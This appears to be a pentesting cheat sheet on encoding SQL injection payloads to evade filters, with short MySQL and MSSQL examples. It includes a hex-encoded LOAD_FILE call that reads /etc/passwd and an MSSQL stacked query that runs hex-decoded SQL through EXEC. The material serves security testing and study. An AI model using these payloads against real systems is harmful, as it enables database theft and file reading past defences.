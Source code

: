 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - defense-evasion
  - sql-injection
---
```

# Encoding

## URL Encoding

### MySQL

```sql
SELECT %74able_%6eame FROM information_schema.tables;
```

## Double URL Encoding

### MySQL

```sql
SELECT %2574able_%256eame FROM information_schema.tables;
```

## Unicode Encoding

### MySQL

```sql
SELECT %u0074able_%u6eame FROM information_schema.tables;
```

## Invalid Hex Encoding (ASP)

### MySQL

```sql
SELECT %tab%le_%na%me FROM information_schema.tables;
```

## Hex Encoded

Encoding a string into a hex encoded.

```
$ basenc -w 0 --base16 <<< "admin" | sed 's/^/0x/'
0x61646D696E0A
```

### MySQL

The final query will be.

```sql
SELECT * FROM Users WHERE username = 0x61646D696E0A
```

Reading files.

```sql
SELECT LOAD_FILE(0x2F6574632F706173737764);
```

### MSSQL

```sql
' AND 1=0; DECLARE @S VARCHAR(4000) SET @S=CAST(0x53454c4543542031 AS VARCHAR(4000)); EXEC (@S);--
```

## ASCII Encoded

### MySQL

```sql
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```

## HTML Entities

### MSSQL

```sql
%26%2365%3B%26%2378%3B%26%2368%3B%26%2332%3B%26%2349%3B%26%2361%3B%26%2349%3B
```

---
## References

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)